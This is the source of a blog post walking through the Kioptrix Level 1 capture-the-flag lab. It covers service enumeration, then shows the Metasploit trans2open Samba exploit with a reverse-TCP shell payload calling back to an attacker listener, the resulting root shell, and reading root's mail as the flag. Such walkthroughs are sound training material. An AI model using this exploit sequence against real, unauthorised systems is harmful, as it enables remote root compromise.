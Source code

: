 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1 Walkthrough"
date:   2023-12-19 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1 Walkthrough, CTF solution for Kioptrix Level 1.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy </i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 2.9p2 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>netbios-ssn</p></pc>
           </td>
           <td>
               <pc><p>Samba</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Samba Enumeration

Based on the age of the system other services, I know from exeperience that SAMBA is likely vulnerable to the trans2open exploit.


{% highlight bash %}


use exploit/linux/samba/trans2open

msf exploit(trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.221.156  yes       The target address
   RPORT  139              yes       The target port


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.221.139  yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


{% endhighlight %}


## Metasploit Exploit

{% highlight bash %}
msf exploit(trans2open) > run

[*] [2015.12.20-21:05:39] Started reverse handler on 192.168.221.139:4444
[*] [2015.12.20-21:05:40] Trying return address 0xbffffdfc...
[*] [2015.12.20-21:05:41] Trying return address 0xbffffcfc...
[*] [2015.12.20-21:05:42] Trying return address 0xbffffbfc...
[*] [2015.12.20-21:05:43] Trying return address 0xbffffafc...
[*] Command shell session 1 opened (192.168.221.139:4444 -> 192.168.221.156:1025) at 2015-12-20 21:05:44 -0500


^Z
Background session 1? [y/N]  N

id
uid=0(root) gid=0(root) groups=99(nobody)
hostname
kioptrix.level1
^Z
Background session 1? [y/N]  y
{% endhighlight %}


## Root Flag


Root Flag

{% highlight bash %}
sh-2.05# cd /var/spool/mail
cd /var/spool/mail
sh-2.05# ls
ls
harold
john
nfsnobody
root
sh-2.05# cat root   
cat root
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
    by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
    for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: O

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
{% endhighlight %}
